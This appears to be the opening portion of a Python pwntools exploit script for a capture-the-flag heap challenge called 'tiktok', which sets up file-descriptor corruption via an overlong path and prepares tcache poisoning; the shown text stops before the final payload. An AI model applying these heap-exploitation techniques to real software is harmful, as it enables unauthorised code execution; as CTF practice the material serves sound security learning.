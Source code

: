```python
#sh = remote('ctf.umbccd.io', 4700)
sh = process('./tiktok')

@atexception.register
def handler():
	log.failure(sh.recvall())

def imp(path):
	sh.sendlineafter("Choice: ","1")
	sh.sendline(path)
	sh.recvuntil("like to do today?")

def list(amount, tag):
	sh.sendline("2")
	sh.recvuntil(tag)
	return sh.recv(amount)

def play(id, tag="", amount=0):
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
	sh.recvuntil(tag)
	s = sh.recv(amount)
	sh.recvuntil("like to do today?")
	return s

def play_overflow(id, length, content): #Use this if the song you're going to play has its file descriptor overwritten by stdin
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
	sh.sendline(length)
	if len(content) > 0x450: #Check needed due to weird read() buffering over a network.
		print "Error your payload's too long. It is " + str(len(content)) + " bytes."
		exit()
	sh.sendline(content)
	sh.recvuntil("like to do today?")

def delete(id, getsh=0):
	sh.sendlineafter("Choice: ","4")
	sh.sendline(id)
	if getsh == 0:
		sh.recvuntil("like to do today?")

for i in range(0, 11): #ids 1-11 are rainbow-godzilla (767 bytes)
        imp("Rainbow/godzilla.txt")

for i in range(0, 11): #ids 12-22 is a directory (1 bytes)
        imp("Warrior")

for i in range(0, 11): #ids 23-33 is animal-animal (946 bytes)
        imp("Animal/animal.txt")

for i in range(0, 10): #ids 34-43 is Warrior-pastlive (829 bytes)
        imp("Warrior/pastlive.txt")
        
badfile = "Warrior" + "/"*(0x18-len("Warrior"))
imp(badfile) #Number 44 now has stdin as file descriptor

play("12")
play("13")
play("2") #Reserving song #1 for later use


imp("Warrior") #These will be used in the final tcache poison
```